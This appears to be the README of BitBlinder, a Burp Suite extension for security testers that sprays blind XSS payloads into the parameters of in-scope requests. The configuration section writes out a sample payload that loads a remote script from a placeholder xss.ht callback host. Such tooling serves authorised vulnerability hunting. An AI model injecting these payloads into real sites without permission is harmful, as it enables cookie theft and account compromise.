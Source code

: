 # BitBlinder

**THIS TOOLS IS IN EARLY BETA USE IT ON YOUR OWN RISK**  
Burp extension helps in finding blind xss vulnerabilities by injecting xss payloads in every request passes throw BurpSuite
```
*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*
-  Developer: Ahmed Ezzat (BitTheByte)      -
-  Github:    https://github.com/BitTheByte -
-  Version:   0.04b                         -
*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*
[WARNING] MAKE SURE TO EDIT THE SETTINGS BEFORE USE
[WARNING] THIS TOOL WILL WORK FOR IN-SCOPE ITEMS ONLY
[WARNING] THIS TOOL WILL CONSUME TOO MUCH BANDWIDTH
```

# Configuration
Go to `Bit blinder` tab then enable it  
Set your payloads (line separated)  
```
"><script%20src="https://myusername.xss.ht"><script>
"><script%20src="https://myusername.xss.ht"><script>
...
```
If you added more than 1 payload enable the randomization button  
If you want to keep it disabled keep in mind that the tool will use the first payload only


# How to use
1. Load the extension to your burpsuite
2. Click on `Bit blinder` tab then enable it  
3. Add your target to scope **It'll only work for inscope items**
4. Continue your hunting session **Make sure to do alot of actions [Forms,Search,...]**
5. Monitor the output in extension's output tab

**Note:** By the nature of this tool it'll make alot of requests so you may get blocked by WAF or experience slow internet connection


# In a nutshell

When user visits [https://example.com?vuln=123&vuln2=abc](https://example.com?vuln=123&vuln2=abc)  
This tool will generate the following 2 requests (in the background without effecting the current session)  
1. [https://example.com?vuln=[YOUR_XSS_PAYLOAD]&vuln2=abc](https://example.com?vuln=[YOUR_XSS_PAYLOAD]&vuln2=abc)
2. [https://example.com?vuln=123&vuln2=[YOUR_XSS_PAYLOAD]](https://example.com?vuln=123&vuln2=[YOUR_XSS_PAYLOAD])

The previous example also applies to `POST` parameters


# Current version
```
Version 0.04b
```


# TO-DO (By priority)
- GUI ✓ ( A very ugly one for now.. )
- Fix endless request loops
- Injection in headers
- Option to exclude paramters/hosts/endpoints
- Better output/logging system
